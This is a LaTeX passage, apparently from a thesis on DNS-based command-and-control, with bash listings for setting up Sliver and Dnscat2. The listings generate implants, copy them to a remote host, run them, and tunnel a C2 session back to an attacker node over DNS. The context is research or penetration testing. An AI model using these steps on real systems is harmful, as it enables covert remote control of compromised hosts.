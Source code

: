 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\subsubsection{Sliver}
Sliver being the highest reputed adversary emulation framework developed by BishopFox for advanced penetration testing, the official documentation provides detailed steps on \href{https://github.com/BishopFox/sliver/blob/master/README.md}{Github} to clone and build the sliver C2 framework.
\begin{lstlisting}[language=bash,caption={Steps to use Sliver for DNS C2},label={lst:sliver-steps}]
# 1. Start Sliver C2 server on attacker node
sliver-server
# 2. Connect to Sliver client console from same node
sliver-client
# 3. Start the DNS Server job 
job -d <c2_domain>. 
# 3. Generate implant binary for session based (less stealthy generate more DNS traffic during C2 attacks)
generate --dns <c2_domain> --debug --os linux --arch amd64 --save /tmp/implant 
# 3. Generate implant binary for session based (less stealthy generate more DNS traffic during C2 attacks)
generate --dns <c2_domain> --poll-timeout <beacon_interval> --debug --os linux --arch amd64 --save /tmp/implant_beacon 
# 4. Transfer implant to any host in data plane
scp /tmp/implant user@remote:/tmp/
# 5. Run the implant on the remote host
chmod +x /tmp/implant
chmod +x /tmp/implant_beacon
./tmp/implant
./tmp/implant_beacon
# 6 carry all the c2 attacks once system is compromised and beacon, session implant connected to c2 server
# 6. Confirm session, beacons established in Sliver console
sessions
beacons
# 7. connect sliver c2 server to start exploiting compromised sessions or beacons
use <session_id>
use <beacon_id>
\end{lstlisting}


\subsubsection{Dnscat2}
Dnscat2 documentation for building the dnscat2 server and client can be found on official documentation page at \href{https://github.com/iagox86/dnscat2/blob/master/README.md}{Github}.
\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2},label={lst:dnscat2-steps}]
# 1. Start Dnscat2 C2 server on attacker node without port obfuscation, default DNS tunnelling over Port 53/udp 
sudo ruby dnscat2.rb --dns 'host=<attacker_node>,domain=<c2_domain>'
# 2. Connect to dnscat c2 server from compromised node in data plan
./dnscat --secret=<c2_connection_secret> <c2_domain>
# 6 carry all the c2 attacks once compromised node is connected to C2 server.
\end{lstlisting}
\end{document}

